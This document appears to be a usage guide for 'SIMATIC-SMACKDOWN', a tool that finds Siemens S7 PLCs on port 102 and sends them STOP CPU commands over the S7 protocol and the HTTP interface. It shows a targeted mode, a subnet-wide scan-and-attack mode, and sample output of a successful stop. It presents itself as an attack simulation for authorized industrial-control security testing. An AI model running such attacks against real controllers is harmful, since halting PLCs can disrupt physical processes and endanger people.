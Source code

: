 # SIMATIC-SMACKDOWN Usage Guide

## Command Line Arguments

The tool now supports two modes of operation:

### 1. Targeted Mode (with IP arguments)
Attack specific PLCs by providing their IP addresses as command-line arguments:

```bash
# Single target
./simatic_smackdown 192.168.1.50

# Multiple targets
./simatic_smackdown 192.168.1.50 192.168.1.51 10.0.0.100

# Windows
simatic_smackdown.exe 192.168.1.50 192.168.1.51
```

**Features:**
- Only targets the specified IP addresses
- Validates each IP before attempting connection
- Verifies port 102 is open before attacking
- Skips invalid IP addresses with warnings

### 2. Network Scan Mode (no arguments)
Scans the entire local subnet for PLCs:

```bash
# Linux/Mac
./simatic_smackdown

# Windows
simatic_smackdown.exe
```

**Features:**
- Automatically detects local network interface
- Scans entire /24 subnet (254 addresses)
- Attacks all discovered PLCs

## Output Indicators

- `[+]` Success or positive result
- `[*]` Information or ongoing operation
- `[!]` Attack action or warning
- `[-]` Failure or negative result
- `[ERROR]` Critical error

## Examples

### Example 1: Target specific test PLCs
```
> simatic_smackdown.exe 192.168.1.50 192.168.1.51
=== SIMATIC-SMACKDOWN - S7 PLC Attack Simulation ===
[*] Target mode: Specific IPs provided
[+] Added target: 192.168.1.50
[+] Added target: 192.168.1.51
[*] Verifying target IPs for S7 PLCs on port 102...
[+] Confirmed S7 PLC at: 192.168.1.50
[-] Target 192.168.1.51 is not reachable on port 102

[*] Proceeding with attack on 1 target(s)

[*] Initiating S7 protocol STOP CPU attack...
[!] Sending STOP command to PLC at 192.168.1.50 via S7 protocol
[*] S7 protocol attack phase complete

[*] Initiating HTTP web interface STOP attack...
[!] Sending STOP command to PLC at 192.168.1.50 via HTTP interface
[+] HTTP request sent successfully to 192.168.1.50 (Status: 200 OK)
[*] HTTP attack phase complete

[*] Attack simulation complete.
[*] Targeted 1 PLCs in total
```

### Example 2: Invalid IP handling
```
> simatic_smackdown.exe 192.168.1.50 invalid-ip 256.256.256.256
=== SIMATIC-SMACKDOWN - S7 PLC Attack Simulation ===
[*] Target mode: Specific IPs provided
[+] Added target: 192.168.1.50
[-] Invalid IP address: invalid-ip (skipping)
[-] Invalid IP address: 256.256.256.256 (skipping)
...
```

### Example 3: Network scan mode
```
> simatic_smackdown.exe
=== SIMATIC-SMACKDOWN - S7 PLC Attack Simulation ===
[*] Target mode: Network scan
[*] No specific targets provided - scanning local network...
[+] Found local IP address: 192.168.1.100
[*] Targeting subnet: 192.168.1.100/24
[+] Generated 254 IP addresses in subnet 192.168.1.100/24
[*] Starting scan for S7 PLCs on port 102...
[+] Found S7 PLC at: 192.168.1.50
[+] Found S7 PLC at: 192.168.1.51
[+] Scan complete. Found 2 S7 PLCs
...
```

## Testing Scripts

Two test scripts are provided:

1. **test_usage.bat** - For Windows Command Prompt
2. **test_usage.ps1** - For PowerShell (recommended)

Run the PowerShell script:
```powershell
# You may need to allow script execution first
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process

# Run the test script
.\test_usage.ps1
```

## Safety Notes

- Always use in authorized test environments only
- The targeted mode helps prevent accidental scanning of production networks
- Verify target IPs before running the tool
- The destructive filesystem functions remain commented out for safety
